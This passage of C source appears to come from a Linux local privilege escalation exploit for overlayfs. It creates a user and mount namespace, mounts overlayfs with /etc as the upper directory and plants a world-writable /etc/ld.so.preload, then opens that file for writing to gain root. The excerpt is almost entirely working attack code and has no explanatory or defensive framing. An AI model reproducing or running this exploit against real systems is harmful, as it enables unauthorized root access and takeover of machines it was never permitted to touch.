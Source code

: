 ```c
        chmod("/tmp/ns_sploit/work/work",0777);
    } else file = "ns_last_pid";

    chdir("/tmp/ns_sploit/o");
    rename(file,"ld.so.preload");

    chdir("/");
    umount("/tmp/ns_sploit/o");
    fprintf(stderr,"mount #2\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc") != 0) {
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc,workdir=/tmp/ns_sploit/work") != 0) {
            exit(-1);
        }
        chmod("/tmp/ns_sploit/work/work",0777);
    }

    chmod("/tmp/ns_sploit/o/ld.so.preload",0777);
    umount("/tmp/ns_sploit/o");
}

int
main(int argc, char **argv)
{
    int status, fd, lib;
    pid_t wrapper, init;
    int clone_flags = CLONE_NEWNS | SIGCHLD;

    fprintf(stderr,"spawning threads\n");

    if((wrapper = fork()) == 0) {
        if(unshare(CLONE_NEWUSER) != 0)
            fprintf(stderr, "failed to create new user namespace\n");

        if((init = fork()) == 0) {
            pid_t pid =
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
            if(pid < 0) {
                fprintf(stderr, "failed to create new mount namespace\n");
                exit(-1);
            }

            waitpid(pid, &status, 0);

        }

        waitpid(init, &status, 0);
        return 0;
    }

    usleep(300000);

    wait(NULL);

    fprintf(stderr,"child threads done\n");

    fd = open("/etc/ld.so.preload",O_WRONLY);

    if(fd == -1) {
        fprintf(stderr,"exploit failed\n");
        exit(-1);
    }
```